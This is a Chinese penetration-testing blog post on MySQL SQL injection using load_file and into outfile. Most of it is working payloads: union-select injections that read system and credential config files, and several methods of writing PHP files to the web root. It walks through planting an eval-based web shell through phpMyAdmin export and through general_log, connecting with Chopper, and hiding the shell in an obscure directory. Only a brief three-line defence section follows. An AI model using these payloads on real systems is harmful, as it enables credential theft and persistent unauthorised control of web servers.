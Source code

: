 +++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["injection", "getshell"]
title = "SQL注入之load_file和into outfile(MySQL)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:00
 * @LastEditTime : 2020-08-24 00:29:11
 -->

### 0x00 load_file() 读文件
* 条件:

```
1. 要有file_priv权限: show global variables like '%secure%';
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径
    ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  
    ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件
    ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 load data local infile 读文件
* 条件:

```
MySQL8 中需要 SET GLOBAL local_infile=1;
```

* 语句

```
LOAD DATA LOCAL INFILE 'D:/pet.txt' INTO TABLE pet FIELDS TERMINATED BY '';
select * from pet;
```

### 0x02 into outfile getshell
* 条件：

```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法  
当知道路径时，可以直接用

```
id=1 union select "<? phpinfo();>" into outfile("C:/phpStudy/WWW/a.php")

id=1 into outfile 'C:/phpStudy/WWW/a.php' columns terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' fields terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines starting by '<? phpinfo();>';
```

* phpMyAdmin 导出数据 getshell 

登陆phpMyAdmin  
```
use test;  选择数据库为test
create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
insert into aaa values("<?php @eval($_POST['c']);?>"); --在 aaa 中写入 shell 内容
select * from aaa into outfile 'C:/phpStudy/WWW/a.php'; --将 aaa 中的数据导出到文件 a.php
```

localhost:80/a.php能访问  
```
drop aaa; --删除建立的表
```

然后菜刀连接  
```ini
菜刀连接http://www.aa.com/a.php，然后更改shell的名字并将shell放在较隐蔽的地方，比如C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
```

* phpMyAdmin 日志 getshell

```
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'C:/phpStudy/WWW/a.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell
set global general_log=off;                  #关闭general log模式
```

### 0x03 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件